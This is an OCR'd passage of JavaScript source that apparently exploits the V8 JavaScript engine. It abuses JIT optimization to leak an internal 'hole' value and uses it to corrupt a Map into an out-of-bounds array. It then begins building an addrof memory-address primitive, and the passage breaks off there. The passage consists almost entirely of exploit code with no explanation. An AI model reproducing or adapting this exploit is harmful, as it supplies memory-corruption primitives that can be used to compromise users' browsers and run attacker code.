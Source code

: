 'a', 'b', '"use strict";b.a.call(arguments,b);return arguments[a];');
J.prototype.a = new Function('a', 'a.b(0,a)');
J.prototype.b = new Function(
'a', 'b',
'b.c();if(a){' +
'g++;'.repeat(70) + '}');
J.prototype.c = function() {
if (optim) {
var z = C(3);
var p = C(3);
z[0] = 0;
e = {M: z, C: p};
}
};
var a = new J();
// jit optim
if (bug) {
for (var V = 0; 1E4 > V; V++) {
opt(0 == V % 4 ? 1 : 4, a, 1);
}
}
optim = true;
opt(1, a, 1);
return e;
}
e1 = foo(false);
e2 = foo(true);
delete e2.M[0];
let hole = e2.C[0];
let map = new Map();
map.set('asd', 8);
map.set(hole, 0x8);
map.delete(hole);
map.delete(hole);
map.delete("asd");
map.set(0x20, "aaaa");
let arr3 = new Array(0);
let arr4 = new Array(0);
let arr5 = new Array(1);
let oob_array = [];
oob_array.push(1.1);
map.set("1", -1);
let obj_array = {
m: 1337, target: gc
};
let ab = new ArrayBuffer(1337);
let object_idx = undefined;
let object_idx_flag = undefined;
let max_size = 0x1000;
for (let i = 0; i < max_size; i++) {
if (d2u(oob_array[i])[0] === 0xa72) {
object_idx = i;
object_idx_flag = 1;
break;
}if (d2u(oob_array[i])[1] === 0xa72) {
object_idx = i + 1;
object_idx_flag = 0;
break;
}
}
function addrof(obj_para) {
obj_array.target = obj_para;
let addr = d2u(oob_array[object_idx])[object_idx_flag] - 1;
obj_array.target = gc;